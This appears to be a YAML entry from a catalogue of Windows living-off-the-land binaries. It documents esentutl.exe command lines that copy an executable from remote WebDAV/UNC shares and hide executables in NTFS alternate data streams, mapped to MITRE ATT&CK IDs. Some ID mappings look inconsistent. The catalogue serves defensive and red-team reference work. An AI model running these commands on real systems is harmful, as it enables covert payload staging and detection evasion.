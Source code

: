 ```yaml
---
name: Esentutl.exe
description: Binary for working with Microsoft Joint Engine Technology (JET) database
functions:
  download:
    - description: Copies the source EXE to the destination EXE file
      code: esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
      mitreid: T1096
      mitrelink: https://attack.mitre.org/wiki/Technique/T1096
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Use to copy files from one unc path to another
  copy:
    - description: Copies the source VBS file to the destination VBS file.
      code: esentutl.exe /y C:\folder\sourcefile.vbs /d C:\folder\destfile.vbs /o
      mitreid: T1105
      mitrelink: https://attack.mitre.org/wiki/Technique/T1105
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Copies files from A to B
  ads:
    - description: Copies the source EXE to an Alternate Data Stream (ADS) of the destination file.
      code: esentutl.exe /y C:\ADS\file.exe /d c:\ADS\file.txt:file.exe /o
      mitreid: T1096
      mitrelink: https://attack.mitre.org/wiki/Technique/T1096
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Copy file and hide it in an alternate data stream as a defensive counter measure
    - description: Copies the source Alternate Data Stream (ADS) to the destination EXE.
      code: esentutl.exe /y C:\ADS\file.txt:file.exe /d c:\ADS\file.exe /o
      mitreid: T1096
      mitrelink: https://attack.mitre.org/wiki/Technique/T1096
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Extract hidden file within alternate data streams
    - description: Copies the remote source EXE to the destination Alternate Data Stream (ADS) of the destination file.
      code: esentutl.exe /y \\192.168.100.100\webdav\file.exe /d c:\ADS\file.txt:file.exe /o
      mitreid: T1096
      mitrelink: https://attack.mitre.org/wiki/Technique/T1096
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Copy file and hide it in an alternate data stream as a defensive counter measure
resources:
    - resource: https://twitter.com/egre55/status/985994639202283520
fullpath:
    - path: C:\Windows\System32\esentutl.exe
    - path: C:\Windows\SysWOW64\esentutl.exe
detection:
  - IOC: 
acknowledgement:
  - Person: egre55
    Handle: '@egre55'
---
```


